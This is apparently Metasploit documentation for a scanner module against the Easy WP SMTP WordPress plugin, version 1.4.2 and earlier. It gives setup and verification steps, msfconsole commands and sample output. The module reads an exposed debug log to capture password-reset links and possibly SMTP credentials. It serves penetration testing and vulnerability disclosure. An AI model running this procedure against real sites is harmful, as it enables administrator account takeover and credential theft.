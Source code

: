 ## Vulnerable Application

Wordpress plugin Easy WP SMTP versions <= 1.4.2 was found to not include index.html within its plugin folder.
This potentially allows for directory listings.  If debug mode is also enabled for the plugin, all SMTP
commands are stored in a debug file.
Combining these items, it's possible to request a password reset for an account, then view the debug file to determine
the link that was emailed out, and reset the user's password.

This module will list ALL reset links, most likely the last one is the one that will work, however there
may be value in the others as well (such as other users).  The debug log saved in loot may also contain
the SMTP username and password.

There is one potential false negative case where the `aggressive` option should be used.
If debug mode was enabled, however only the `Test Email` was used (or no legit email has been sent by the server),
the debug file won't exist yet.  This will be remedied by the first password reset request, but to avoid this module
being too noisy, it won't happen unles `aggressive` is set to `true`.

To summarize:

1. Vulnerable version of Easy WP SMTP
1. debug turned on for Easy WP SMTP
1. SMTP configured for Easy WP SMTP
1. direcotry listings enabled

### Install

1. Install wordpress
1. Download and install [Easy WP SMTP](https://wordpress.org/plugins/easy-wp-smtp/advanced/) <= 1.4.2
1. Browse to Settings > Easy WP SMTP
    1. Configure the plugin (SMTP Host, SMTP Port, UN/PASS)
    1. Additional Settings > Enable Debug Log (Check this value, click Save Changes)

## Verification Steps

1. Install Wordpress, Easy WP SMTP, and configure it
1. Start msfconsole
1. Do: `use auxiliary/scanner/http/wp_easy_wp_smtp`
1. Do: `set rhost [ip]`
1. Do: `set USER [username]`
1. Do: `run`
1. You should get the link to reset the user's password

## Options

### User

The username to reset the password of.  Defaults to `Admin`

### Aggressive

When `true`, if directory listings are enabled, however debug file can not be found, the code will proceed anyways.
Defaults to `false`.

## Scenarios

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04

```
resource (wp_easy_wp_smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (wp_easy_wp_smtp.rb)> set verbose true
verbose => true
resource (wp_easy_wp_smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (wp_easy_wp_smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version detected
[+] Found debug log: /wp-content/plugins/easy-wp-smtp/5fcfd49e879f9_debug_log.txt
[*] Sending password reset for Admin
[+] Debug log saved to /home/h00die/.msf4/loot/20201208204705_default_1.1.1.1_5fcfd49e879f9_de_209239.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=IdlSwWkIuy0f7k79OU2p&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
```

### Easy WP SMTP 1.4.1 on Wordpress 5.4.4 running on Ubuntu 20.04.  Aggressive mode

```
resource (easy-wp-smtp.rb)> use auxiliary/scanner/http/wp_easy_wp_smtp
resource (easy-wp-smtp.rb)> set rhosts 1.1.1.1
rhosts => 1.1.1.1
resource (easy-wp-smtp.rb)> set verbose true
verbose => true
resource (easy-wp-smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version detected
[*] Checking for debug_log file
[-] not-vulnerable: Either debug log not turned on, or directory listings disabled.  Try Aggressive mode if false possitive
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

```
resource (easy-wp-smtp.rb)> set aggressive true
aggressive => true
resource (easy-wp-smtp.rb)> run
[*] Checking /wp-content/plugins/easy-wp-smtp/readme.txt
[*] Found version 1.4.1 in the plugin
[+] Vulnerable version detected
[*] Checking for debug_log file
[-] Debug file not found, bypassing check due to AGGRESSIVE mode
[*] Sending password reset for Admin
[*] Checking for debug_log file
[+] Debug log saved to /home/h00die/.msf4/loot/20201218152659_default_1.1.1.1_5fcfd49e879f9_de_812609.txt.  Manual review for possible SMTP password, and other information.
[*] admin password reset: http://1.1.1.1/wp-login.php?action=rp&key=SQRBS8Hpro9jPQdZ9vP5&login=admin
[*] Finished enumerating resets.  Last one most likely to succeed
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
